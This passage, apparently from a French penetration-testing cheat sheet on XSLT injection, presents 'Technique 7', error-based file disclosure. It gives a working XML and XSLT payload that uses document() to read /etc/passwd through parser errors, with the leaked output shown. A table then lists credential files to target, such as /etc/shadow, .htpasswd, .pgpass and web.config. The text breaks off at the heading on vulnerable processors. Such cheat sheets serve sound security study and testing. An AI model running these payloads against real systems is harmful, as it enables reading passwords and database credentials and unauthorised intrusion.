 ***

#### 🎯 Technique 7 : Divulgation d'informations via erreurs

**Description :** Forcer des erreurs pour lire les premières lignes de fichiers non-XML.

**Principe :**

1. Charger un fichier non-XML avec `document()`
2. Le parseur échoue car ce n'est pas du XML valide
3. L'erreur affiche les premières lignes du fichier

**Payload :**

**XML :**

```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="error-disclosure.xsl"?>
<file>/etc/passwd</file>
```

**XSLT :**

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="document(file)"/>
  </xsl:template>
</xsl:stylesheet>
```

**Erreur typique (xsltproc) :**

```
parser error : Start tag expected, '<' not found
root:x:0:0:root:/root:/bin/bash
                                 ^
```

✅ **La première ligne de `/etc/passwd` est divulguée !**

**Fichiers intéressants à cibler :**

| Fichier       | Contenu                                   |
| ------------- | ----------------------------------------- |
| `/etc/passwd` | Utilisateurs et UID                       |
| `/etc/shadow` | Hashes de mots de passe (si accessible)   |
| `.htpasswd`   | Credentials Apache (`user:password_hash`) |
| `.pgpass`     | PostgreSQL (`host:port:db:user:pass`)     |
| `web.config`  | Configuration IIS avec credentials        |
| `config.php`  | Credentials de base de données            |

**Processeurs vulnérables :**

